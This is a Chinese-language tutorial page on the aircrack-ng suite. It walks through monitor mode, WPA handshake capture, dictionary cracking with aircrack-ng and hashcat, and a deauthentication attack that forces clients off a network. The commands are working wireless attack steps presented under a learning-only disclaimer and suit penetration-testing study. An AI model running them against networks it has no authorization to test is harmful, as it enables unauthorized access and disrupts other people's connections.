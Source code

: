 # Aircrack

<p align="center">
    <img src="../../../assets/img/logo/aircrack-ng.jpg" width="25%"></a>
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

aircrack 是一个比较出名的用于破解 WEP 和 WPA 加密的无线网络的一款工具，由 6 个不同的部分组成：
1. aircrack-ng
用于破解 WEP 以及 WPA-PSK 密钥。一旦 aircrack-ng 工具收集了足够的信息，aircrack-ng 将会分析这些数据，
并试图确定使用中的密钥。
2. airdecap-ng 解读被破解的网络数据包
3. airmon-ng 为使用整个 aircrack-ng 套件配置一个网卡
4. aireplay-ng 在无线网络中产生可能在恢复中的 WEP 密钥所需的流量
5. airodump-ng 捕获被 aircrack-ng 用于破解 WEP 密钥的 802.11 帧
6. tools 为微调提供分类工具箱

**文章**
- [记一次曲折的WIFI测试之路](https://www.secpulse.com/archives/96964.html)

---

# 例子

以无线网卡名为 wlan0 举例

```bash
airmon-ng start wlan0   # 启动网卡监听模式
airmon-ng check kill    # 关闭干扰程序

airodump-ng wlan0mon    # 开启抓包,获取附件无线网络
# BSSID(Basic Service SetIdentifier): AP 的 MAC 地址。
# PWR(Power): 信号强度。
# Beacons: AP 发出的通告编号，每个接入点（AP）在最低速率（1M）时差不多每秒会发送 10 个左右的 beacon，
# 所以它们能在很远的地方就被发现。
# #Data:当前数据传输量。
# #/s:过去 10 秒钟内每秒捕获数据分组的数量。
# CH(Channel): AP 所在的频道。
# MB: AP 的最大传输速度。MB=11 => 802.11b，MB=22 => 802.11b+， MB>22 => 802.11g。后面带.的表
# 示短封包标头，处理速度快，更利于破解。
# ENC(Encryption): 使用的加密算法体系。
# CIPHER: 检测到的加密算法。#这个和 ENC 的区别我确实不明白，有没有知道的朋友可以告诉我。
# AUTH(Authority): 认证方式。
# ESSID(The Extended Service Set Identifier): AP 的名称。

airodump-ng -c 6 --bssid E0:24:81:AF:F3:A8 -w wireless wlan0mon     # 指定特定的wifi抓握手包,出现 handshake 则抓包成功
# -c 指定信道,上面已经标记目标热点的信道(CH)
# -bssid 指定目标路由器的BSSID,就是上面标记的BSSID
# -w 指定抓取的数据包保存的目录

aircrack-ng -a2 -b E0:24:81:AF:F3:A8 -w pass.txt wireless-01.cap    # 跑包
```

**使用 hashcat 爆破(只能跑 WPA/WPA2/PSK 加密的)**

用 aircrack-ng 把 cap 转换成 hccap 类型数据包(会自动添加后缀名 .hccap)
```bash
aircrack-ng wireless-01.cap -J wireless
```

```bash
hashcat -m 2500 wireless.hccap pass.txt --force                     # 用hashcat破解WPA/PSK密码
```

若是提示"Old hccap format detected! You need to update"可以将第一步的命令改为
```bash
aircrack-ng wireless-01.cap -j wireless
```

**Deauthentication**

注意如果抓不到握手包把对方踢下线,这样就会抓包成功
```bash
aireplay-ng -0 10 -a <无线路由器的MAC地址> -c <连接上的设备MAC地址> wlan0mon
# -0 冲突攻击模式，后面跟发送次数，一般使用这个模式即可。
# -a 无线网 mac 地址
# -c 连接上的客户端 mac 地址，就是那个 STATION
```
